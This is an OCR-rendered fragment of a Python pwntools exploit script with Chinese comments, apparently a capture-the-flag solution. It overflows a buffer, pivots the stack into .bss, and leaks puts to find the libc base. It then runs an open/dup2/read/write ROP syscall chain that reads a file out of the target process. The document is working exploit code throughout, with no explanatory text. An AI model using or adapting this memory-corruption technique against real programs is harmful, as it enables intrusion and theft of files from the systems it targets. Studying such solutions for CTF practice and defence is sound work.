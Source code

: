 ```python
lib = ELF('./libc.so.6')

bss = elf.bss(0x100)
log.info('bss: ' + hex(bss))

vuln_read = 0x4013AC
payload1 = b'a' * 0x40 + p64(bss) + p64(vuln_read)
p.sendafter(b'!!\xf0\x9f\x98\x8b\n', payload1)
p.recvuntil(b'done!\n')

pop_rdi = 0x401473
leave_ret = 0x4012ec
bss2 = elf.bss(0x200)

payload2 = p64(bss2) + p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(vuln_read)
payload2 += p64(bss - 0x28) + p64(leave_ret)

# 获取puts的地址，进而获取libc的基址
p.send(payload2.rjust(0x50, b'a'))
p.recvuntil(b'done!\n')
puts_addr = u64(p.recv(6).ljust(8, b'\x00'))
log.success('puts_addr: ' + hex(puts_addr))

libc_base = puts_addr - lib.symbols['puts']
pop_rsi = libc_base + 0x000000000002601f
pop_rdx_r12 = libc_base + 0x0000000000119431
pop_rax = libc_base + 0x0000000000036174
syscall = libc_base + 0x00000000000630a9

# 开辟新的bss段，用于存放ROP链，避免与前面冲突
payload3 = b'a' * (0x40) + p64(bss2 + 0x100) + p64(vuln_read)
p.send(payload3)
buf = bss2 + 0x100 - 0x8 * 1
read_addr = libc_base + lib.symbols['read']

payload4 = p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(buf) + p64(pop_rdx_r12) + p64(0x200) + p64(0) + p64(read_addr)
payload4 += p64(bss2 + 0x100 - 0x8 * 9) + p64(leave_ret)
p.send(payload4.ljust(0x50, b'a'))

# gdb.attach(p)
# open,dup2,read,write
payload5 = flat([
    pop_rdi, buf,
    pop_rsi, 0,
    pop_rdx_r12, 0, 0,
    pop_rax, 2,
    syscall,
    pop_rdi, 3,
    pop_rsi, 0,
    pop_rax, 33,
    syscall,
    pop_rdi, 0,
    pop_rsi, elf.bss(0x20),
    pop_rdx_r12, 0x100, 0,
    pop_rax, 0,
    syscall,
    pop_rdi, 1,
    pop_rsi, elf.bss(0x20),
    pop_rdx_r12, 0x40, 0,
    pop_rax, 1,
    syscall
])
```